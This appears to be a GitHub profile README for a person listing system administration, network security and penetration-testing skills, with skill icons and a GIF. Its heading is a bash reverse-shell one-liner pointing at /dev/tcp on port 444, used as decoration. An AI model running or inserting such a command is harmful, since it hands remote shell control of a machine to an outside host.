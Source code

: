<h1 align="center"> /bin/bash -i >& /dev/tcp/Ciscoanass/444 0>&1 </h1>


<p align="left">
  
  <img src="[https://media1.giphy.com/media/dZX3AduGrY3uJ7qCsx/giphy.gif?cid=6c09b952lhfrskfz0exml37rzxsv9t6wpzkh3pg4zkuqfva7&ep=v1_internal_gif_by_id&rid=giphy.gif](https://i.gifer.com/3rNn.gif)&ct=g" alt="image" width="450" align="right">
  </p>

   &lt;config&gt;

🖥️ Sys Administration

🛡️ Network Security

📶 Sys&Network Monitoring

👾 Ethical Hacking

💥 Penetration Testing

🕵️ Vulnerability Analysis

   &lt;/config&gt;


<h1> Skills :</h1>


<p align="center">
  <a href="https://skillicons.dev">
    <img src="https://skillicons.dev/icons?i=git,github,grafana,prometheus,ansible,nginx,bash,linux,redhat,ubuntu,debian,kali,powershell,windows,mysql,py,js,html,css,wordpress,vscode&perline=12  " />
  </a>
</p>
